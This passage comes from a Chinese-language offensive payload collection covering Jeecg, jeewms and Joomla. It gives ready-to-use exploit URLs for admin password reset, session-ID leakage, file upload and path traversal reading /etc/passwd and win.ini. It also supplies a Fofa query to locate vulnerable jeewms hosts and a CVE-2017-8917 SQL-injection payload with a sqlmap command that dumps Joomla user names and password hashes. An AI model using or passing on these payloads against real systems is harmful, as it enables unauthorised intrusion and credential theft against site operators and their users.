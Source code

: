 **密码重置**
- POC | Payload | exp
    - 当访问loginController.do?goPwdInit 或 pwdInit时，即使用户已经修改过密码，admin的密码仍会被重置为123456。

**sessionid 信息泄露**
- POC | Payload | exp
    ```
    http://localhost:8080/webpage/system/druid/websession.json
    ```

**文件上传**
- POC | Payload | exp
    ```
    /jeecgFormDemoController.do?commonUpload
    ```

---

### jeewms

> Fofa: body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

**未授权任意文件读取漏洞**
- POC | Payload | exp
    ```
    http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini
    http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd
    ```

---

### Joomla

> 官网 : https://www.joomla.org/

**相关工具**
- [rezasp/joomscan](https://github.com/rezasp/joomscan) - 效果很差,没啥用

**CVE-2017-8917 Joomla! 3.7 Core SQL 注入**
- 描述

    Joomla 于5月17日发布了新版本 3.7.1,本次更新中修复一个高危 SQL 注入漏洞,成功利用该漏洞后攻击者可以在未授权的情况下进行 SQL 注入。

- 影响版本
    - joomla 3.7.0

- 相关文章
    - [Joomla! 3.7 Core SQL 注入 (CVE-2017-8917)漏洞分析](https://paper.seebug.org/305/)

- POC | Payload | exp
    ```
    http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
    ```

    sqlmap payload
    ```bash
    sqlmap -u "http://192.168.1.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
    ```
